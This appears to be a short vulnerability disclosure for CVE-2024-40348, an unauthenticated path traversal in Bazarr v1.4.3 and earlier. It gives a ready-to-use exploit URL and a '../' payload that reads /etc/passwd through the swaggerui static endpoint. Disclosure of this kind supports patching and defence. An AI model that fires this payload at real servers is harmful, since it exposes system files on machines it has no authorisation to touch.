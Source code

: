 CVE-2024-40348



Vulnerability: File Traversal via path filename


URL: ```http://172.17.0.12:6767/api/swaggerui/static/../../../../../../../../../../../../../../../../etc/passwd```


Payload: ```../../../../../../../../../../../../../../../../etc/passwd```


Action to trigger: None


Version: ‎Version v1.4.3 and prior


Authenticated: No


User: None


https://github.com/morpheus65535/bazarr


![](https://github.com/4rdr/proofs/blob/main/gifs/Bazaar_1.4.3_File_Traversal_via_Filename.gif)
